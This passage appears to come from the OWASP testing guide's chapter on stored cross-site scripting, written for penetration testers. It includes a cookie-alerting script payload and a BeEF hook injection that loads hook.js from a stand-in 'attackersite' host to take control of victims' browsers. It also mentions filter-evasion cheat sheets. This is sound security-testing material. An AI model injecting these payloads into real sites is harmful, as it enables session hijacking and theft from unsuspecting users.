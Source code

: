 > ![Stored XSS Example](images/Stored_xss_example.jpg)\
> *Figure 4.7.2-2: Stored Input Example*
>
> The HTML code following the injection:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see [testing for reflected XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md)) chapter). It is strongly recommended that testers refer to [XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) and [Mario](https://cybersecurity.wtf/encoder/) XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information.

#### Leverage Stored XSS with BeEF

Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as [BeEF](https://www.beefproject.com) and [XSS Proxy](http://xss-proxy.sourceforge.net/).

A typical BeEF exploitation scenario involves:

- Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
- Waiting for the application user to view the vulnerable page where the stored input is displayed
- Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

**Example**: BeEF Injection in `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

When the user loads the page `index2.php`, the script `hook.js` is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

> ![Beef Injection Example](images/RubyBeef.png)\
> *Figure 4.7.2-3: Beef Injection Example*
>
> This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

#### File Upload

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.

Consider the following HTTP POST request for file upload:
